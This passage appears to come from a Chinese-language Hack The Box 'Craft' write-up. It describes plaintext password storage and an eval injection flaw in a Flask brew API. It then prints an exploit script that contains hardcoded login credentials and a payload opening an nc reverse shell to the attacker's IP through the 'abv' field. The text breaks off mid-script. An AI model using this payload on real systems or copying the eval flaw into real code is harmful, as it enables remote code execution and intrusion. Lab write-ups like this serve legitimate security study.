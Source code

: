 - 数据库中的用户密码是明文保存的
{% highlight python %}
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(45))
    password = db.Column(db.String(80))

    def __init__(self, username, password):
        self.username = username
        self.password = password
{% endhighlight %}


- `eval` is evil: 为了修复Bogus ABV values的issue, 代码中引入了一个基于`eval`的判断
{% highlight python %}
    @auth.auth_required
    @api.expect(beer_entry)
    def post(self):
        """
        Creates a new brew entry.
        """

        # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
{% endhighlight %}

## `eval` RCE漏洞利用
- 可以利用代码中的`tests/test.py`写exploit

- 这里的反弹shell payload需要多进行尝试，很多payload会出错

- exploit
{% highlight python %}
#!/usr/bin/env python3
# _*_ coding:utf-8 _*_
import requests
import json

# auth & get token
response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.
print("Create bogus ABV brew")
brew_dict = {}

brew_dict["abv"] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.19 4444 >/tmp/f')"